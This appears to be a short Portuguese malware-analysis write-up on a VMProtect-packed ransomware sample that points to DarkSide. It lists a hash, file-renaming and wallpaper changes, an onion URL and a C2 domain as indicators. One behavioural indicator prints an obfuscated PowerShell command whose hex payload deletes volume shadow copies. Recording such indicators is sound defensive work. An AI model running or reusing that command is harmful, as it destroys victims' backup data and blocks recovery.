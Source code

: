 SHA256: 4098b54c9d27b00ce34d04ffac24213ed28993a2854827851b157d63407c2e4e

Objetivo 1: Exemplos de informações relevantes: arquivos procurados, alterações no sistema, compilador, c2, diretórios ignorados, e tudo mais que achar relevante.
    Encontrado Protector/Packer: VMProtect(1.60-2.05)
    Encontrado Linker: Microsoft Linker(14.12)

IOC BEHAVIOR
    Inclui 8 caracteres aleatorios na extensão dos arquivos
    Altera o WallPaper da area de trabalho via "Windows Registry" -> \REGISTRY\USER\S-1-5-21-XXXX\Control Panel\Desktop\WallPaper
    Spawn PowerShell com CommanLine malicioso -> powershell -ep bypass -c "(0..61)|%{$s+=[char][byte]('0x'+'4765742D576D694F626A6563742057696E33325F536861646F77636F7079207C20466F72456163682D4F626A656374207B245F2E44656C65746528293B7D20'.Substring(2*$_,2))};iex $s"
    Spawn VSSVC
    
IOC URL
    hxxp://darksidfqzcuhtk2[.]onion

IOC DOMAIN
    securebestapp20[.]com

Objetivo 2: Regra Yara para detectar o sample

Objetivo 3: Assinatura hipotética baseada em uma sequência de comportamentos, 


Ferramentas utilizadas:
    Detect It Easy
